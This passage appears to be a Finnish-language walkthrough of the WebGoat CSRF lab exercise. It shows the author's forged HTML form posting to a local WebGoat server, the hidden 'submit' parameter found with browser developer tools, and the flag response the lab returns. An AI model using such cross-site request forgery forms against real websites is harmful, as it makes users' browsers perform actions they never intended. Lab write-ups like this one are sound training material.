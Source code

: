 Formin 'action' -parametri pitää muuttaa osoittamaan WebGoat-palvelimeeni. Oman sivuni lähdekoodi näyttää tällä hetkellä tältä:
    
    <html>
    <body>
    <form id="basic-csrf-get" method="POST" name="form1" target="_blank" action="http://192.168.0.155:8080/WebGoat/csrf/basic-get-flag">
    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">
    </form>
    </body>
    </html>

Ei toimi. Jotain puuttuu. Olisiko requestissa jotain muutakin, mitä en huomannut? Katsotaanpa 'Submit' -napin takaa aukeavaa WebGoat/csrf/basic-get-flag -vastaussivua. Olisiko requestissa jotain parametrejä joita en huomannut aikaisemmin? Avaan developer toolsin network-väliehden ja olin oikeassa:

![](./img/wg19.png)

Formille pitää siis luoda uusi input nimeltään 'submit' ja antaa sille arvoksi 'Submit'. Lisään tämän sivuni lähdekoodiin, ja koodi näyttää tällä kertaa tältä:

    <html>
    <body>
    <form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" target="_blank"  action="http://192.168.0.155:8080/WebGoat/csrf/basic-get-flag" >
    <input name="csrf" type="hidden" value="false">
    <input name="submit" type="hidden" value="Submit">
    <input type="submit" name="submit">
    </form>
    </body>
    </html>

Temppu onnistuu ja saan seuraavanlaisen vastauksen:
   
    {
     "flag" : 31888,
     "success" : true,
     "message" : "Congratulations! Appears you made the request from a separate host."
    }
